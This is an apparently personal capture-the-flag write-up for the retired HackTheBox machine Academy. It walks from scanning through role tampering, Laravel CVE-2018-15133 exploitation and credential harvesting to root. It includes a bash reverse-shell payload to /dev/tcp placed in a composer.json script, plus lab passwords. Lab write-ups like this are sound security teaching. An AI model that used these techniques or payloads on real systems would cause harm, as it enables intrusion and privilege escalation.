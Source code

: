 ```yaml
---
title: HackTheBox - Academy Writeup
subtitle: Here's my writeup for the RETIRED machine Academy, Which is an easy Linux machine!
date: '2021-04-25'
draft: false
authors: ['elleuch']
categories: ['HackTheBox', 'Easy']
tags: ['HackThebox', 'easy']
image: /assets/img/htb-academy/featured.jpg
---
```



# Information Gathering

## Nmap scan 

```
sudo nmap -sC -sV -T5 -oA nmap -O -A -v 10.10.10.215
```

!(placeholder)[/assets/img/htb-academy/nmap.png]

As we see we have 2 ports open <br/>
SSH on port 22 running OpenSSH 8.2p1 <br/>
http on port 80 running httpd 2.4.41 <br/>

we notice as well the academy.htb domain, which we should add to /etc/hosts.



## Gobuster scan 


```
gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-medium-files.txt -u http://academy.htb -x php
```

!(placeholder)[/assets/img/htb-academy/gob.png]


# Initial Foothold


## Identifying the exploit

So basically the first thing that tried was sql injection on <b> admin.php </b> but that didn't give me any results. as we don't have any potential users let's move on and dig further. <br/>

Let's create an account and see if we can find any usernames and intercept it with burp

```
POST /register.php HTTP/1.1
Host: academy.htb
Content-Length: 53
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://academy.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.146 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://academy.htb/register.php
Accept-Encoding: gzip, deflate
Accept-Language: fr-FR,fr;q=0.9,en-US;q=0.8,en;q=0.7
Cookie: PHPSESSID=sdloh07q837vauvt0oqevack4o
Connection: close
uid=elleuch&password=elleuch&confirm=elleuch&roleid=0
```
We can notice the <b>roleid</b>	parameter which is set to 0. we can assume that's assigning a role to the user we're creating. Which basically can be a normal user ( roleid=0 ) or a privileged user ( roleid=1 ).

Let's change change 0 to 1 and forward the request and create our privileged user and try to login to <b>/admin.php</b> 

!(placeholder)[/assets/img/htb-academy/planner.png]

As we see above the planner leaks to us a subdomain <b>dev-staging-01.academy.htb</b> <br/>
Let's add it to /etc/hosts and see what we get

!(placeholder)[/assets/img/htb-academy/laravel.png]

Errors! That sounds promosing! Scrolling down we can see something really interesting
```
APP_KEY	 "base64:dBLUaMuZz7Iq06XtL/Xnz/90Ejq+DEEynggqubHWFj0="
```
We have the APP_KEY! We can abuse <b>Laravel Unserialize Vulnerability CVE-2018-15133 </b> <br/>
For this exploit we'll be using this script, a pretty easy syntax.
```
https://github.com/aljavier/exploit_laravel_cve-2018-15133/blob/main/pwn_laravel.py
```

!(placeholder)[/assets/img/htb-academy/foothold.png]

And voilà we're on the box

# User Privesc

Now let's start enumarating,We already know that the webserver is running PHP Laravel. </br>
The first thing we should look at is the <b>.env</b> file. </br>

!(placeholder)[/assets/img/htb-academy/env.png]

And we get a password! <br />
`mySup3rP4s5w0rd!!` <br/>
Let's see if it belongs to any existing user

!(placeholder)[/assets/img/htb-academy/users.png]

After manually trying to switch to these users, it turns out to be cry0l1t3's password

!(placeholder)[/assets/img/htb-academy/logincry.png]

Our user is in the <b>adm</b> group! So basically we can read logs! And also we can read the audit log! We can grab some juicy informations from it

!(placeholder)[/assets/img/htb-academy/mrb3.png]

`data=6D7262336E5F41634064336D79210A`

Seems we got a password! But it's hex encoded! Let's decode it

!(placeholder)[/assets/img/htb-academy/pw.png]


`mrb3n_Ac@d3my!`

Seems like it's mrb3n's password! 

# Root Privesc

Mrb3n can execute <b>/usr/bin/composer</b> as root!

!(placeholder)[/assets/img/htb-academy/sudo.png]

Going through the docs of composer we can find out that we can execute a custom script using composer! we need to create a composer.json first in any folder we want!
```json
{ 
"scripts":{"shell":"/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.111/4444 0>&1'"}
}
```

We set our listener 


```
nc -lvnp 4444 
```

And execute 

```
sudo /usr/bin/composer --working-dir=fake run-script shell
```

!(placeholder)[/assets/img/htb-academy/root.png]


And we rooted the box! <br/>
`uid=0(root) gid=0(root) groups=0(root)`


